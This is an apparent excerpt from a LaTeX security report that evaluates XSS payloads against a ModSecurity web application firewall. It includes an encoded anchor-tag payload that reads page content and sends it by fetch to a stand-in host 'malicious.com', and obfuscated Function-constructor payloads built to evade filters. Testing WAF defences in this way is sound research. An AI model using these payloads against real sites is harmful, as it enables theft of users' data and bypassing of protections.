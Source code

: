 \section{Evaluation Results}
\label{sec:EvaluationResults}
Combination of <a> with javascript in href injection, HTML ascii encoding, tagged template literals (line breaks for readability)
\begin{lstlisting}[style=basicStyle]
	<a href=j&#97v&#97script&#x3A;
	var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
	var&#32data&#32=&#32&#123body:secret,method:'POST'\};
	fetch`https:\//malicious.com:3001/api/ping?secret=querysecret$&#123data\}`>ClickMeFor$</a>
\end{lstlisting}

\begin{itemize}
	\item Using function constructor to evade eval() detection
	\item supplying the argument via tagged template literal to avoid () characters
	\item the 'a' in front of the template in the template string to avoid an error that is thrown if the first parameter in a multi parameter call to the function constructor is not a valid javascript parameter
	\item using string replace to avoid supplying the full sequence of 'alert' and to replace () characters
\end{itemize}

theoretically a payload without () is possible like this but it turns out that passing a template literal string with \verb|${...}| syntax is being flagged as unix command injection

\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
	[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}


tried to encode the  payload:
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
	[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}
with unicode and html, even the weird unicode. but the modsecurity waf decodes both and blocks TODO

